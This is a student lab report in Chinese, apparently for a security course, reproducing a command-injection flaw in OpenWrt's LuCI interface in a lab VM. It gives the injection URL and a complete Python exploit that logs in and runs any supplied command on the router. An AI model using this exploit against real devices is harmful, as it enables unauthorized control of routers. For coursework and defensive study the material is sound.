










# 第四章 移动通信安全概述实验

## 实验要求

- 复现 CVE-2019-1227漏洞

- 编写一个漏洞利用程序

## 实验环境

- Kali

- OpenWrt 15.05.1

## 实验过程

### 环境搭建

- 下载安装存在该漏洞的 `OpenWrt 15.05.1` 的镜像版本,参考[第一章实验的方法](https://github.com/CUCCS/2021-mis-public-shiancuc/blob/mis_chap0x01/chap0x01/mis_chap0x01_report.md)搭建，在此不多赘述。

---

### 漏洞复现

- 先使用管理员账号登录 `LuCI`

    

- 在漏洞复现前 `http://192.168.56.3/cmd.txt` 无法显示

    

- 使用浏览器访问 `http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞

    

    

- 再次访问 `http://192.168.56.3/cmd.txt`

    

- 漏洞复现成功

---

### 漏洞利用代码

- 通过 `Chrome` 浏览器开发者工具的 `Copy as curl` 功能，将漏洞复现请求复制为 `curl 命令`

    

- 通过第三方网站将 `curl 命令`转换为 `Python requests` 代码

    

- 再通过同样的方式将登录信息复制为 `curl 命令`

    


- 代码编写

    ```python
    import requests
    from urllib.parse import urlparse
    import sys

    from requests.models import Response

    class CVE_2019_12272:

        def __init__(self):
            self.host = '192.168.56.3'
            self.uname = 'root'
            self.upass = '******'#LuCI管理员帐号的密码
            self.stok = ''
            self.cmd = ''
            self.cookies = ''
            self.headers = {
                'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                'Accept-Language': 'en-US,en;q=0.5',
                'Referer': 'http://{host}/cgi-bin/luci',
                'Content-Type': 'application/x-www-form-urlencoded',
                'Connection': 'keep-alive',
                'Upgrade-Insecure-Requests': '1',
            }


        def login(self):
            data = {
                'luci_username': '{uname}'.format(uname=self.uname),
                'luci_password': '{upass}'.format(upass=self.upass)
            }
            response = requests.post('http://{host}/cgi-bin/luci'.format(host=self.host), headers=self.headers, cookies=self.cookies, data=data, allow_redirects=False)
            location = response.headers['Location']
            self.stok = urlparse(location).params
            self.cookies = response.cookies

        def shell(self, cmd):
            url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd}%3ecmd.txt)'.format(host=self.host, stok=self.stok, cmd=cmd)
            response = requests.get(url, headers=self.headers, cookies=self.cookies)

        def view(self):
            url = 'http://{host}/cmd.txt'.format(host=self.host)
            response = requests.get(url, headers=self.headers)
            print(response.text)

    if __name__ == "__main__":
        exp = CVE_2019_12272()
        exp.login()
        exp.shell(sys.argv[1])
        exp.view()
    ```

- 在命令行中输入`python exp.py id`

    

- 网页上访问 `http://192.168.56.3/cmd.txt` ，漏洞已经实现

    


## 实验问题

- 只是照着老师课上讲的实现了代码，没有自己做改进

## 参考资料

- [CVE_2019_12272](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)

- [移动互联网安全（2021）](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)